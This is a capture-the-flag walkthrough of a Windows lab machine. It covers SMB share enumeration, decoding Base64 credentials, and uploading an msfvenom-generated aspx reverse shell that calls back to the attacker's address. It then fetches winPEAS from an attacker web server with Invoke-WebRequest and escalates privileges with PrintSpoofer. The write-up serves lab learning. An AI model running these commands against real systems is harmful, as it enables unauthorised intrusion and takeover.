


# Enumeration
We begin with an autorecon scan, followed up by a few nmap scans for more details.


Enumerate SMB shares with `smbclient -L \\\\<target IP>
` and access the `nt4wrksv` share anonymously.


Transferring the `passwords.txt` over to our local machine with `get`, we see that it contains a brief list of encoded credentials.


```txt
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk   
```

This looks like Base64. Decoding reveals the credentials for a pair of users: Bob and Bill. Trying out the credentials for RDP with `xfreerdp /v:10.10.170.7 /u:'<user>' /p:'<password>'` gets us nowhere. For now, there doesn't seem to be anywhere we can use the credentials.

The http server on port 80 is just the default IIS Windows Server page. Gobuster does not reveal any directories. Note that http is also running on port 49663. Let's take a look. (**Note:** I had to reset my machine a couple of times, so the target IP will be different in some screenshots.)

Again, we are greeted with a default page. However, using gobuster to enumerate directories yields a new result: `/nt4wrksv/`, which it the name of the share we found earlier. (This string appears toward the end of the standard `directory-list-2.3-medium.txt` wordlist, so you may have to wait a while to see it.)

Nothing displays when we navigate to this directory. However, we know from before that the `nt4wrksv` share contained a `passwords.txt` file. If we navigate to `<target IP:49663/nt4wrksv/passwords.txt`, we see the contents of the passwords file.


This is useful, since we may be able to upload a reverse shell script via the SMB share. Let's try uploading a test file.




Success!
<br>

# Exploitation
Now that we know we can upload files to the SMB share and then view them via the web server, let's try to upload a reverse shell script. The http version was Microsoft IIS 10.0, and a bit of [Googling](https://cheatsheet.haax.fr/windows-systems/exploitation/iis/) reveals that we should use an aspx shell. We will use msfvenom to generate the payload as follows:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.30.43 LPORT=9999 -f aspx > reverseshell.aspx`


Now let's add it to the SMB share with `put`.


Set up a netcat listener on the given port and navigate to the corresponding link on the port 49663 web server. After a few seconds, we catch the reverse shell, giving us initial access. From here, we can easily find the `user.txt` flag.


<br>

# Post-Exploitation
Now let's look for privesc methods. We'll use [WinPEAS](https://github.com/carlospolop/PEASS-ng/releases/tag/20220724) to see if we can get a quick win. Download it to the local machine and spin up a web server (in the same directory as the WinPEAS exe) using `python3 -m http.server`. On the Windows machine, switch to Powershell by typing `Powershell` and use
```PS
Invoke-WebRequest -OutFile winpeas.exe http://<attacker IP>:8000/winPEASx64.exe
```
to download the file.


Now exit Powershell and run WinPEAS with `.\winpeas.exe`. This gives a nice summary of the machine as well as possible avenues for privesc. There's a lot to digest here, but thing we want to focus on is our current user's privileges.


Note that we could have just found this information by using `whoami /priv`, but it's good practice to make use of a tool like winPEAS. Now, we see that two tokens are enabled, including the `SeImpersonatePrivilege` token which is often used for privesc in a Windows machine. There are a few tools we can use, some of which are listed [here](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens). Let's use [PrintSpoofer](https://github.com/itm4n/PrintSpoofer). Grab the exe file from [here](https://github.com/dievus/printspoofer) and download it onto the Windows machine using the above method. (**Note**: My machine died again here, so the IP has changed.)


Exit Powershell and run `.\PrintSpoofer.exe -i -c cmd`. This gives us a shell with root privileges, which we can use to find and read the `root.txt` flag.


